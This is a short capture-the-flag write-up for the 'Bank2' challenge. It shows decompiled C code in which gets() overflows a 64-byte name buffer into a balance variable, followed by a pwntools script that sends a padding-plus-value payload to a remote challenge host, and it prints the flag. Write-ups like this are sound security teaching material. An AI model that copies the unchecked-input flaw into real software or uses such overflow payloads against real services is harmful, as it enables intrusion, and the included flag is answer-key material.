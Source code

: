 # **Bank2**

Pseudo code from IDA:

```c++
void getFlag()
{
  system("cat flag.txt");
}
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance == 0x66A44 )
    getFlag();
}
```

Bank2 is pretty the same with happy birthday so we need to overwrite `balance` with `0x66A44`.

The exploit code:

```python
from pwn import *

r = remote("61.28.237.24",30203)

r.recvuntil('[+] Please enter your name: ')
payload= "A"*64+p32(0x66A44) #64 "A" for name[64] and /x44/x6A/x06 for balance
r.send(payload)
r.interactive()
#HCMUS-CTF{little_endian_is_fun}
```

[**Turn Back**](README.md)
